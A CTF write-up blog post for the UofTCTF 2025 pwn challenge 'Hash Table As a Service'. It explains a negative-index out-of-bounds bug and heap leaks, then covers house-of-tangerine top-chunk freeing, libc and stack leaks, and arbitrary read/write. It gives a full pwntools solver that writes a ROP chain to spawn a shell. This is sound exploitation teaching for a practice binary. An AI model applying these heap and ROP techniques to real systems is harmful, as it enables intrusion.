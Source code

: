 ```yaml
---
layout: post
title: "UofTCTF 2025 - Pwnable Write up"
date: 2025-01-16 00:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux]
media_subpath: /assets/img/20250116_uoftctf-2025-wu
image: logo.png
---
```


I solved 3 pwn challs out of 3 during the CTF (Book Editor, Counting Sort, Hash Table As a Service).

Among them, I want to write down the last one.

- [https://ctftime.org/event/2570/](https://ctftime.org/event/2570/)

## **Hash Table As a Service (15 solves)**

**[0x01] Summary**

- 

**[0x02] Solution**

There were three features in this binary like creating hash table, set hash table, and get hash table.

```c
struct HASH
{
  __int64 size;
  hash_content *content;
};

struct hash_content
{
  __int32 key;
  char value[8];
};
```

Through a global array (`hashTables`), those features are implemented and it has 20 `HASH` entry. And each hash entry has a pointer of `hash_content` structure.

```c
            // creating hash table
            printf("Size: ");
            __isoc99_scanf("%ld", &size);
            if ( (unsigned int)allocHashTable(size, &hashTables[index]) )
```

There was a no limit about the size of hash table, so I can set arbitrary value on BSS.

And I found that the hash table index can have negative value on the set/get hash table features. It means that we can use not only `hashTables` array in BSS, but also the pointers in binary.

```py
pwndbg> x/2gx 0x555555558040 - 0x250
0x555555557df0:    0x000000006ffffef5    0x00005555555543b0
```

Luckily, there was a good target which can be used as a `HASH` structure. It have a large size and its pointer is referencing the address which is less than `hashTables` array. 

Before that, it is important to know how the program retrieve the `hash_content` structure from the `HASH` structure.

```c
hash_content *__fastcall getHashTable(HASH *hash, int key)
{
  unsigned __int64 hash_index; // [rsp+10h] [rbp-10h]
  hash_content *content; // [rsp+18h] [rbp-8h]

  hash_index = (unsigned __int64)key % hash->size;
  content = hash->content;
  while ( key != content[hash_index].key && memcmp(&empty, &content[hash_index], 0xCuLL) )
    ++hash_index;
  return &content[hash_index];
}
```

We can input a index of `HASH` and a key of `hash_content` and the program picks up a `HASH` structure from index with `hashTables`. Then it uses the key as a index of `hash_content` and search it until one of the following conditions is satisfied:

- dereferenced key is same with the entered key.
- dereferenced `hash_content` is filled with zero.

To use the target hash table which I introduced above, I created a hash table which has a same size with the offset from the target and printed the heap address.

```py
pwndbg> x/8gx &hashTables
0x555555558040 <hashTables>:	0x0000000000000000	0x0000000000000000
0x555555558050 <hashTables+16>:	0x0000000000000000	0x0000000000000000
0x555555558060 <hashTables+32>:	0x0000000000000000	0x0000000000000000
0x555555558070 <hashTables+48>:	0x4141414100000510	0x00005555555592a0

pwndbg> x/2gx 0x00005555555543b0 + 0x510 * 0xC
0x555555558070 <hashTables+48>:	0x4141414100000510	0x00005555555592a0
```

Because I can only modify and read 8 bytes from `hash_content->value`, I was only able to acquire and modify the 4 bytes of the heap and it was enough to get advanced.

By using it, we can overwrite any value within the heap segment and make a freed chunk in a unsorted bin without calling `free()` from top chunk. If we could modify the top chunk's size with the page-alignment size lowering previous top chunk's size and allocate a bigger size than its size, we can get freed the top chunk (you can see the details from [house of tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_tangerine.c))

From the freed top chunk, we can leak the base of glibc segment.

Also, we can set AAR/AAW primitive from the good target.

```py
pwndbg> x/2gx 0x555555558040 - 0x250
0x555555557df0:	0x000000006ffffef5	0x00005555555543b0

pwndbg> x/2gx 0x00005555555543b0 + 0x50F * 0xC
0x555555558064 <hashTables+36>:	0x414141410000050f	0x0000051041414141

pwndbg> x/8gx &hashTables
0x555555558040 <hashTables>:	0x0000000000000015	0x000055555555cf70
0x555555558050 <hashTables+16>:	0x0000000000000155	0x000055555557a010
0x555555558060 <hashTables+32>:	0x0000050f00000000	0x4141414141414141      # <-- hashTables[2]
0x555555558070 <hashTables+48>:	0x4141414100000510	0x000055555555d07c
```

We can set any address to read and write and we already know the libc's base. Then I did ROP on stack. My solver code is following:

```py
from pwn import*
context.binary = ELF("./chall", False)
libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)
# libc = ELF("./libc.so.6", False)
def new_ht(idx, size):
    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b": ", str(idx).encode())
    p.sendlineafter(b": ", str(size).encode())
def set_ht(idx, key, value):
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b": ", str(idx).encode())
    p.sendlineafter(b": ", str(key).encode())
    p.sendafter(b": ", value)
def get_ht(idx, key):
    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b": ", str(idx).encode())
    p.sendlineafter(b": ", str(key).encode())
def get_ht_brute(idx, key):
    p.sendline(b'3')
    p.sendline(str(idx).encode())
    p.sendline(str(key).encode())

p = process(aslr=0)
# p = remote('34.162.33.160', 5000)
# p = remote('localhost', 5000)

# 1. heap leak through same size with the offset
new_ht(3, 0x510)
set_ht(-0x25, 0x510, b'A'*4)
get_ht(-0x25, 0x510)
p.recvuntil(b'A'*4)
heap = u64(p.recv(4).ljust(8, b'\x00')) - 0x2a0
log.success(f"heap base @ {hex(heap)}")

# 2. make unsorted bin by overwriting TOP chunk 
new_ht(0, 0x100 // 0xC)
set_ht(-0x25, 0x510, b'A'*4 + p32(heap + 0x4070))
set_ht(3, 0, b'A'*4 + p32(0xf91))

# 3. leak libc from heap
new_ht(1, 0x1000 // 0xC)
set_ht(-0x25, 0x510, b'A'*4 + p32(heap + 0x4080 - 0x4))
get_ht(3, 0)
p.recvuntil(b"Value: ")

libc.address = u64(p.recv(6).ljust(8, b'\x00')) - libc.sym._IO_2_1_stdin_ - 0x240
log.success(f"libc base @ {hex(libc.address)}")

# 4. stack leak through AAR
set_ht(-0x25, 0x50F, p64(libc.sym.environ - 4))
get_ht(2, 0)
p.recvuntil(b": ")
stack = u64(p.recv(6).ljust(8, b'\x00')) - 0x120
log.success(f"stack @ {hex(stack)}")

# 5. clear stack with zero
set_ht(-0x25, 0x50F, p64(stack - 4))
set_ht(2, 0, p64(0))
for i in range(0x10):
    set_ht(-0x25, 0x50F, p64(stack - 4 + i * 8))
    set_ht(2, 0, p64(0))

# 6. write ROP payload on main RET
rop = ROP(libc)
rop.call(rop.find_gadget(["ret"]))
rop.call("system", [next(libc.search(b"/bin/sh"))])
payload = rop.chain()
payload_list = []
for i in range(len(payload) // 8):
    payload_list.append(u64(payload[i*8: (i+1)*8]))

for i in range(len(payload) // 8):
    set_ht(-0x25, 0x50F, p64(stack + 0x18 - 4 - i * 8))
    set_ht(2, 0, p64(payload_list[-1 - i]))

set_ht(-0x25, 0x50F, p64(stack - 4 - (stack >> 32) * 0xC))
set_ht(2, (stack >> 32), p64(payload_list[0]))
p.sendlineafter(b"> ", b'4')

p.interactive()
```

[The intend solver](https://github.com/UofTCTF/uoftctf-2025-chals-public/blob/master/hash-table-as-a-service/solve/solve.py) by the author, cleverly using only the hash features, similarly frees the top chunk to get libc base, repeats the process two more times to create tcache dup, and finally overwrites `_IO_end_buf` of `stdin` to perform FSOP.